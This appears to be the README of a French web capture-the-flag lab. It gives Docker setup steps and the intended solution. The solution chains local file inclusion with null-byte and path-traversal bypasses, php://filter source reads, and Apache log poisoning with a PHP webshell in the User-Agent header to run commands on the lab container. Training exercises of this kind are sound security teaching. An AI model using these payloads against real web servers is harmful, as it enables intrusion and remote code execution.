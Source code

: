 # Challenge CTF WEB : "ShopInc"

**Difficulté :** Intermédiaire
**Compétence visée :** Local File Inclusion (LFI), découverte de fichiers sensibles, exécution de code à distance (RCE - via LFI to RCE)
**Contexte :** Site de e-commerce minimaliste

---

## Description du Challenge

Bienvenue sur **ShopInc**, votre nouvelle boutique en ligne préférée ! Parcourez notre catalogue et découvrez nos produits innovants. En explorant le site, vous pourriez remarquer une fonctionnalité qui inclut dynamiquement du contenu. Votre mission est d'exploiter cette vulnérabilité pour accéder à des fichiers sensibles du serveur et, idéalement, obtenir une exécution de code à distance afin de trouver le flag caché.

## Déploiement du Challenge

1.  **Prérequis :**
    * **Docker**
    * **Docker Compose**

2.  **Préparation des fichiers :**
    * Assurez-vous d'avoir créé la structure de dossiers comme décrit (`shopinc/app/`, `shopinc/app/products/`, etc.).
    * Copiez-collez le contenu fourni dans chaque fichier respectif.

3.  **Lancer le conteneur Docker :**
    * Ouvrez votre terminal ou invite de commande.
    * Naviguez jusqu'au répertoire `shopinc` (le dossier parent contenant `Dockerfile`, `docker-compose.yml` et le dossier `app`).
    * Exécutez la commande suivante pour construire l'image et lancer le conteneur :
        ```bash
        docker-compose up --build -d
        ```
        * `--build` : Construit l'image Docker (nécessaire la première fois ou après des modifications du `Dockerfile`).
        * `-d` : Lance le conteneur en arrière-plan (mode détaché).

4.  **Accéder au challenge :**
    * Une fois le conteneur lancé (cela peut prendre quelques secondes), ouvrez votre navigateur web.
    * Accédez au challenge en utilisant l'URL suivante (assurez-vous d'utiliser `http://`) :
        ```
        http://localhost:80
        ```
        ou simplement
        ```
        http://localhost
        ```
    * Si vous rencontrez une erreur comme `SSL_ERROR_RX_RECORD_TOO_LONG`, c'est que votre navigateur essaie d'utiliser HTTPS. Assurez-vous bien de taper `http://` explicitement.

## Solution Attendue (pour le créateur du challenge)

Le but est d'exploiter la Local File Inclusion (LFI) sur le paramètre `page` dans `view.php` pour lire le fichier `flag.txt` situé à la racine du dossier `/var/www/html` dans le conteneur (`app/flag.txt` sur votre machine hôte) et potentiellement d'autres fichiers sensibles.

### Étapes de résolution :

1.  **Découverte de la LFI :**
    * Accédez à la page d'accueil : `http://localhost/`
    * Cliquez sur "Produits" ou sur les liens "Voir Détails". Vous remarquerez que l'URL change en `http://localhost/view.php?page=product_a` (ou `product_b`).
    * Tentez de modifier le paramètre `page` :
        * `http://localhost/view.php?page=non_existent_file` : Ceci devrait provoquer une erreur "Fichier ou page introuvable", confirmant que le paramètre `page` est utilisé pour inclure des fichiers.
        * Tentez d'inclure `/etc/passwd` : `http://localhost/view.php?page=/etc/passwd`. Le filtre devrait bloquer cette tentative avec le message "Accès non autorisé !".

2.  **Analyse et Contournement des Filtres :**
    * Le code dans `view.php` contient un filtre qui bloque `../`, `/etc/`, `php://input`, `data://`, et `phar://`. Il nettoie également les extensions communes comme `.php`, `.html`, `.txt`, `.log`.
    * Le **Null Byte (%00)** est le contournement clé pour ce challenge. Le `str_ireplace` et le `file_exists` de PHP s'arrêtent souvent à un Null Byte.
    * L'application ajoute `.php` à la fin du nom de fichier inclus par défaut (ex: `products/votre_parametre.php`).

3.  **Exploitation de la LFI pour lire des fichiers sensibles :**
    * **Lire `/etc/passwd` :**
        * Pour contourner le filtre qui ajoute `.php` et le chemin relatif :
            `http://localhost/view.php?page=../../../../etc/passwd%00`
        * Le `../../../../` permet de remonter à la racine du système de fichiers. Le `%00` tronque le `.php` ajouté par le script.
    * **Lire le code source des fichiers de l'application (utile pour découvrir le flag ou des indices) :**
        * Le filtre bloque `resource=config` et `resource=flag`. Vous ne pouvez donc pas lire `db_config.php` ou `flag.txt` directement avec `php://filter`.
        * Cependant, vous pouvez lire `index.php` ou `view.php` : `http://localhost/view.php?page=php://filter/convert.base64-encode/resource=index%00` (ou `view%00`).
        * Décodez le résultat en Base64 pour voir le code source et confirmer la logique.

4.  **LFI to RCE (Exécution de Code à Distance) via Logs Apache :**
    * **Injection de code dans les logs :** Le moyen le plus courant pour ce type de LFI. Faites une requête HTTP à n'importe quelle page du site (ex: `http://localhost/`), mais modifiez l'en-tête `User-Agent` pour y inclure un webshell PHP.
        * Exemple de `User-Agent` à envoyer (via Burp Suite ou `curl`):
            ```
            User-Agent: <?php system($_GET['cmd']); ?>
            ```
        * **Avec `curl` :**
            ```bash
            curl -A "<?php system(\$_GET['cmd']); ?>" http://localhost/
            ```
            (Assurez-vous d'échapper les caractères spéciaux dans le shell si vous copiez-collez directement).
    * **Inclusion du fichier de log :**
        * Maintenant que votre code PHP est dans le fichier de log Apache (`/var/log/apache2/access.log`), incluez ce fichier via LFI avec le contournement du Null Byte :
            ```
            http://localhost/view.php?page=../../../../var/log/apache2/access.log%00
            ```
    * **Exécution de commandes :**
        * Votre webshell est maintenant actif. Ajoutez le paramètre `&cmd=` à l'URL pour exécuter des commandes :
            ```
            http://localhost/view.php?page=../../../../var/log/apache2/access.log%00&cmd=ls -la /
            ```
        * Vous devriez voir `flag.txt` dans le répertoire `/`.

5.  **Récupération du Flag :**
    * Utilisez la commande `cat` pour lire le flag :
        ```
        http://localhost/view.php?page=../../../../var/log/apache2/access.log%00&cmd=cat /flag.txt
        ```
    * Le flag sera affiché dans la page.

## Nettoyage

Pour arrêter et supprimer les conteneurs et les images Docker de ce challenge :
```bash
docker-compose down --rmi all